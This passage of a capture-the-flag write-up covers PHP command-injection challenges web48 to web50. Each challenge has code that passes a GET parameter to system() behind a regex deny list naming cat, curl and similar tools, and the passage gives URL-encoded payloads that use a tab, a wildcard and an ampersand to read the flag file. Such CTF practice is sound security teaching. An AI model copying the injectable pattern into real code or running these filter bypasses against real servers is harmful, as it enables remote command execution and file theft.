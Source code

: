 **payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web48

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web49

```php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web50

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```
